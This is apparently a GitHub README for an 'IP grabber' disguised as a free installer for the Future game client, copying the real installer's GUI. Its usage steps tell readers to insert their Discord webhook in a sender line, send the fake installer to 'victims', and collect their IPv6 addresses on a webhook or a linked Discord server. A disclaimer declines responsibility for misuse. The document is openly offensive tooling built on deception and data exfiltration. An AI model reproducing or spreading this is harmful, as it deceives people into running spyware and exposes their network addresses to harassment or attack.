 <p align="center">
  <a href="http://forthebadge.com/"><img src="https://forthebadge.com/images/badges/built-with-swag.svg" alt="forthebadge"/></a>
</p>


<h1 align="center">🔧 Future client ip grabber 🔧 </h1>
<h3 align="center">If someone wants Future client for free, send them this, it has the same GUI as Future installer. Grabs victims IPv6 address and sends it through a discord webhook.
</h3>
<h4 align="center">⭐ Don't forget to leave a star! ⭐</h4>

## Usage

1. Go to releases tab and search for `https://github.com/Doundeway/Future-ip-grabber/releases/tag/1.0`
2. Paste your webhook into `sender webhook = new sender("https://discord.com/api/webhooks/{your webhook id}");`
3. Send it to your victim or victims
4. Join this discord server to see your victims ip `https://discord.gg/TbpbZ5Xnss`(if you decide to use the default webhook url)
5. Do whatever you want with the ip



## Disclaimer 

Any malicious usage with this code isnt our fault. You are responsible for your own actions.
